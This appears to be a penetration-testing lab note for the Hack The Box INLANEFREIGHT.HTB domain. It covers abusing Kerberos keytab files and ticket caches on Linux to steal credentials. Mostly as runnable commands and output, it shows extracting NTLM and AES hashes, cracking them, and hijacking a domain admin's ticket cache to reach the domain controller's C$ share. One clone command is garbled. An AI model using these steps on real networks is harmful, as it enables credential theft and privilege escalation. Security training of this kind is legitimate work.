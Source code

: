 ```bash
crontab -l

# find cache files
ls $KRB5CCNAME

# cache in envs
env | grep -i krb5

# in tmp files
ls -la /tmp
```
## Abusing KeyTab Files
### method 1
```bash
klist -k -t /opt/specialfiles/carlos.keytab 

kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab

# check we have ticket
klist

# connect to SMB as carlos
smbclient //dc01/carlos -k -c ls

```
### method 2 - keytab extract
https://github.com/sosdave/KeyTabExtract
```bash
git https://github.com/sosdave/KeyTabExtract && clone KeyTabExtract
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 

[+] Keytab File successfully imported.
        REALM : INLANEFREIGHT.HTB
        SERVICE PRINCIPAL : carlos/
        NTLM HASH : a738f92b3c08b424ec2d99589a9cce60
        AES-256 HASH : 42ff0baa586963d9010584eb9590595e8cd47c489e25e82aae69b1de2943007f
        AES-128 HASH : fa74d5abf4061baa1d4ff8485d1261c4
```
Now we can crack hashes with [[hashcat]],  [[john]] or https://crackstation.net/
After we get password, log in:
```bash
su - carlos@inlanefreight.htb
```
## Abusing Keytab cache
```bash
ls -la /tmp
# identify group
id julio@inlanefreight.htb
uid=647401106(julio@inlanefreight.htb) gid=647400513(domain users@inlanefreight.htb) groups=647400513(domain users@inlanefreight.htb),647400512(domain admins@inlanefreight.htb),647400572(denied rodc password replication group@inlanefreight.htb)

# import the ccache file into our current session
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
# ensure we see ticket
klist
# connect to SMB with ticket
smbclient //dc01/C$ -k -c ls -no-pass
```